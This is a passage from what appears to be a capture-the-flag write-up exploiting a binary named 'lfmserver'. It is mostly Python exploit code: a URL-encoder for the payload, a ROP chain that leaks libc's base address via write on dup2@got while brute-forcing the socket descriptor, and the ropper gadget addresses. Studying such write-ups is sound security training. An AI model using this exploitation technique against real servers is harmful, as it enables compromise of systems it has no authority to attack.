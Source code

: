 The payload is URL-encoded using the previously mentioned function from GitHub.
```python
def urlencode(data, bytes=False):
    if bytes: # Don't use ord if already bytes
        return "".join("%{0:0>2}".format(format(c, "x")) for c in data)
    else:
        return "".join("%{0:0>2}".format(format(ord(c), "x")) for c in data)
```

#### Leaking libc-base
```python
def leak(fd):
    try:
        io = start()
        log.info("Trying fd: %d" % fd)
        rop = ROP([binary])

        # call write(fd, dup2@got, 8);
        rop.raw(pop_rdi)
        rop.raw(fd)
        rop.raw(pop_rsi)
        rop.raw(binary.got['dup2']) # function to leak, can be any function
        rop.raw(0x0) # for r15
        rop.raw(nop)
        # rdx is 8
        rop.raw(binary.symbols['write'])

        io.sendline(genReq(bytes(rop)))

        # Recv junk
        io.recvuntil("Size: 32",timeout=3)
        io.recvline(timeout=3)
        io.recvline(timeout=3)
        io.recvline(timeout=3)

        leak = u64(io.recv().rstrip()[1:7].ljust(8, b'\x00'))
        io.close()
        clear(3)

        # Check if leak is plausible
        if leak < libc.symbols['dup2']:
            raise Exception("Leak not plausible!")

        libc.address = leak - libc.symbols['dup2']
        clear()
        log.success("Leaked libc-base: %s" % hex(libc.address))
        return True
    except:
        return False
```
Now with the genRequest setup, the rest of the exploitation is just simple rop. The gadgets can be acquired using any tool. I used ropper to get the gadgets:
```python
# ropper --file lfmserver
pop_rdi = 0x0405c4b #0x0405c4b: pop rdi; ret;
pop_rsi = 0x0405c49 #0x0405c49: pop rsi; pop r15; ret;
nop     = 0x040251f #0x040251f: nop; ret;
```
We use write to leak dup2@got and calculate the libc base address. I simply manually brute forced the fd (using a for loop), until I got a valid result.
